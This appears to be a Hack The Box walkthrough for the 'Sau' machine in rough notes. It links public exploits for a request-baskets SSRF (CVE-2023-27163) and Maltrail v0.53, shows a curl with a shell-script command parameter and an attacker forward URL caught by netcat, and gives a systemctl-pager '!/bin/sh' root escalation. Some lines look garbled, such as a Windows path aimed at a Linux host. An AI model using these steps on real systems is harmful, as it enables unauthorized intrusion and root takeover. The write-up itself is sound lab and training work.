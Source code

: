 ```yaml
---
title: "Sau"
date: 2024-12-21
categories: HTB
tags: ["htb walkthrough", "ctf", "cybersecurity", "hackthebox", "htb writeup", "penetration testing", "sau", "writeup", "htb"]
---
```


# Sau

# Sau

# Enumeration
- :55555/web
- CVE-2023-27163
- Maltrail v0.53

![[Pasted image 20240827135329.png]]

## 55555-TCP
# Notes
- Request-baskets v1.2.1
# Fuzzing
![[Pasted image 20240827124554.png]]

# Screenshots
![[Pasted image 20240827134722.png]]

```text
O2ZJG8S00yexG8xe_5Z0zwH0Hu53MF9SMpULkgOyK6eI
```

![[Pasted image 20240827134904.png]]

# SSRF
https://github.com/rvizx/CVE-2023-27163

![[Pasted image 20240827140613.png]]

![[Pasted image 20240827140629.png]]

```sh
# URL encode this
curl "http://10.10.11.224:55555/8gvphln?
cmd=c:\users\public\shell.sh"
```

https://github.com/entr0pie/CVE-2023-27163


# Foothold
- Changing the configuration settings in `:55555/web/<basket>` as below and navigation to the basket on a web browser shows the vulnerable service name and version. 

![[/assets/images/sau4.png]]
![[/assets/images/sau5.png]]

## Notes
- CVE-2023-27163
## Attempts
https://github.com/entr0pie/CVE-2023-27163

Add attacker URL to `Forward URL:`
![[/assets/images/sau1.png]]

Try to send the `GET` request to the basket and see if I receive anything on *Netcat* listener.
![[/assets/images/sau2.png]]

![[/assets/images/sau3.png]]

![[/assets/images/sau4.png]]

Access the basket in a browser http://10.10.11.224:55555/rkh5ump
![[/assets/images/sau5.png]]

# Maltrail v0.53
https://github.com/spookier/Maltrail-v0.53-Exploit

![[/assets/images/sau7.png]]

![[/assets/images/sau6.png]]


# Privilege Escalation
- `sudo -l` shows that `/usr/bin/systemctl status trail.service` can be run without a password. 
- `systemctl --version` shows the vulnerable version.
- Used a public exploit to gain root access. 

![[/assets/images/sau9.png]]

![[/assets/images/sau11.png]]
- systemd 245

https://packetstormsecurity.com/files/174130/systemd-246-Local-Root-Privilege-Escalation.html

# PoC
```text
1. Run the systemctl command which can be run as root user.

sudo /usr/bin/systemctl status any_service

2. The ouput is opened in a pager (less) which allows us to execute arbitrary commands.

3. Type in `!/bin/sh` in the pager to spawn a shell as root user.
```

![[/assets/images/sau13.png]]


